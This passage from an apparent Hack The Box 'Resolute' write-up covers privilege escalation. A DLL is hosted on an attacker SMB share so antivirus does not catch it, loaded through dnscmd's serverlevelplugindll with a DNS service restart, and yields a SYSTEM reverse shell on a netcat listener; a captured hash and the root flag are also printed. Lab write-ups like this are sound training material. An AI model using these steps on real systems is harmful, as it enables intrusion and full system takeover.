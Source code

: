     ```
    ┌──(gemstone㉿hashghost)-[~/…/Machines/vip/resolute/exploit]
    └─$ impacket-smbserver -smb2support share .
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    ```
3. Since there is always a chance that any Malware Scanner or Defender to detect the file and either quarantine it or remove it. Hence, we are hosting it on the `smb` server that makes it available for the Windows machine, and then we will directly interact with the `DDL` over the network. The executable we will use to pass the `DLL` code into the memory as SYSTEM is called `dnscmd.exe`. This step has been performed in step number 2 then now pass the following commands in your windows machine
```
*Evil-WinRM* PS C:\Users\ryan\desktop> dnscmd.exe /config /serverlevelplugindll \\10.10.14.5\share\rev.dll
*Evil-WinRM* PS C:\Users\ryan\desktop> sc.exe stop dns
*Evil-WinRM* PS C:\Users\ryan\desktop> sc.exe start dns
```
4. The connection must be established 
```
RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:75dd298f46c982584f82e803627ad3b8:0101000000000000000a6466ee16d901e42c3fcfa265443e0000000001001000540058004e006c00500077006d00590003001000540058004e006c00500077006d00590002001000730069007a007a005100550064007a0004001000730069007a007a005100550064007a0007000800000a6466ee16d90106000400020000000800300030000000000000000000000000400000591a36925b0a4d5199cbb350892e75b7fc82d9a645973712b86a39c350d642db0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0035000000000000000000
[*] Connecting Share(1:share)
[*] Disconnecting Share(1:share)
[*] Closing down connection (10.10.10.169,51523)
[*] Remaining connections []
```
5. Start a listener for 
```
┌──(gemstone㉿hashghost)-[~/…/htb/Machines/vip/resolute]                                                                                                                                                                                   
└─$ nc -nlvp 1234  
c:\Windows\System>whoami
whoami
nt authority\system
```
Then up to here we have a shell as `system` user

**Root flag**
```
c:\Users\Administrator\Desktop>type root.txt
type root.txt
43dccd03906eb65c66cc2f4fdafd909e
```
The End.
```
Mungu Nisaidie
```